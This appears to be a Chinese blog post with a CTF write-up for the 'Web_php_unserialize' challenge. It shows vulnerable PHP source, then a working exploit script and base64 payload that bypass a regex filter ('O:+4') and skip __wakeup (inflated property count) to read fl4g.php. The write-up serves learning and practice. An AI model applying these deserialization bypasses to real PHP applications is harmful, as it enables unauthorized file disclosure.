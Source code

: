 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      Web_php_unserialize    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-13         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```



```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

`preg_match()`返回 pattern 的匹配次数。 它的值将是0次（不匹配）或1次，因为preg_match()在第一次匹配后 将会停止搜索。preg_match_all()不同于此，它会一直搜索subject 直到到达结尾。 如果发生错误preg_match()返回 FALSE。

`unserialize()` 对单一的已序列化的变量进行操作，将其转换回 PHP 的值。  若被解序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 `__wakeup()` 成员函数（如果存在的话）。 

`serialize()` 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个 E_NOTICE 级别的错误。

 与之相反，`unserialize()` 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

`__wakeup()` 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。 

`__desturct()`生命周期结束时，则调用desturct()。

知道了函数的作用，也就差不多理解了这段代码的意思。

先base64解码GET接收到的变量`$var`,然后进行正则匹配检测，如果匹配到了就失败了。没匹配到就会执行解序列化。

在反序列化时 ， PHP 会先执行 __wakeup() 函数 . 本题中 __wakeup() 函数的作用为 : 将 $file 变量强制赋值为 index.php ， 而题目又提示 flag 在 fl4g.php 中 ， 因此这又牵扯到一个问题了 : 如何绕过 __wakeup() 函数。

解题开始：

* 绕过正则

正则匹配的规则是: 在不区分大小写的情况下 ， 若字符串出现 "o:数字" 或者 "c:数字' 这样的格式 ， 那么就被过滤。

但是我们进行序列化Demo对象时，必将会出现`O:4:`,所以我们得绕过。

直接在4前面加一个加号`+`.

* 绕过__wakeup()

我们仅需要破坏对象属性检查就可以绕过 `__wakeup()` 函数 ， 最简单的方法就是增大对象属性的个数 ， 使其反序列化异常 .

* 构造exp

```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
    $obj = new Demo('fl4g.php');
    $str = serialize($obj);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $str1 = str_replace('O:4', 'O:+4',$str);//绕过preg_match
    $str2 = str_replace(':1:', ':2:',$str1);//绕过wakeup
    var_dump($str2);
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
    var_dump(base64_encode($str2));
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>
```

Exp : `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`

之后提交`var`变量即可。

![UYr590.png](https://s1.ax1x.com/2020/07/13/UYr590.png)

**ps:**

之前我把生成的对象序列化之后输出，复制之后，手工替换`绕过正则`和`__wake`,base64编码之后，发现解不出题...........

看了大佬[博客](https://www.guildhab.top/?p=990)才知道。

**不同属性的对象序列化后字符格式是不一样的**

```
Private属性 ： 数据类型:属性名长度:&quot;\00类名\00属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;

Protected属性 ： 数据类型:属性名长度:&quot;\00*\00属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;

Public属性 ： 数据类型:属性名长度:&quot;属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;
```

1、将序列化之后的字符串直接存入文件。

    $obj = new Demo('fl4g.php');
    $str = serialize($obj);
    $file=fopen("a.txt","w") or die("can't open file");
   fwrite($file,$str);
    fclose($file);

2、将序列化后的字符串输出，直接复制粘贴到文件。

	echo $str;

3、vim查看a.txt

![UYD6oR.png](https://s1.ax1x.com/2020/07/13/UYD6oR.png)

输出到命令行的序列化字符串格式已经被破坏 ， 因此必须要在脚本中直接构造出完整的 Exp

参考：https://www.guildhab.top/?p=990
